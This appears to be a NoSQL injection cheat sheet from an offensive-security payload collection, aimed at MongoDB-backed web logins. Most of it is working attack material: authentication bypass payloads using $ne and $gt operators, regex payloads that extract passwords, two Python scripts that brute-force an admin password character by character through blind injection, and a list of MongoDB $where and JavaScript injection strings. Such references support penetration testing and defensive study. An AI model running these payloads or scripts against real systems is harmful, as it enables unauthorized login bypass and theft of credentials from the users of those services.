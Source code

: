 # NoSQL injection

> NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Summary

* [Tools](#tools)
* [Exploit](exploits)
  * [Authentication Bypass](#authentication-bypass)
  * [Extract length information](#extract-length-information)
  * [Extract data information](#extract-data-information)
* [Blind NoSQL](#blind-nosql)
  * [POST with JSON body](#post-with-json-body)
  * [GET](#get)
* [MongoDB Payloads](#mongodb-payloads)
* [References](#references)

## Tools

* [NoSQLmap - Automated NoSQL database enumeration and web application exploitation tool](https://github.com/codingo/NoSQLMap)

## Exploit

### Authentication Bypass

Basic authentication bypass using not equal ($ne) or greater ($gt)

```json
in URL
username[$ne]=toto&password[$ne]=toto

in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

### Extract length information

```json
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

### Extract data information

```json
in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

Extract data with "in"

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```


## Blind NoSQL

### POST with JSON body


```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False)
            if 'OK' in r.text:
                print("Found one more char : %s" % (password+c))
                password += c
```

### GET

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload='?username=%s&password[$regex]=^%s' % (username, password + c)
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print("Found one more char : %s" % (password+c))
        password += c
```

## MongoDB Payloads

```bash
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```

## References

* [Les NOSQL injections Classique et Blind: Never trust user input - Geluchat](https://www.dailysecurity.fr/nosql-injections-classique-blind/)
* [Testing for NoSQL injection - OWASP](https://www.owasp.org/index.php/Testing_for_NoSQL_injection)
* [NoSQL injection wordlists - cr0hn](https://github.com/cr0hn/nosqlinjection_wordlists)
* [NoSQL Injection in MongoDB - JUL 17, 2016 - Zanon](https://zanon.io/posts/nosql-injection-in-mongodb)
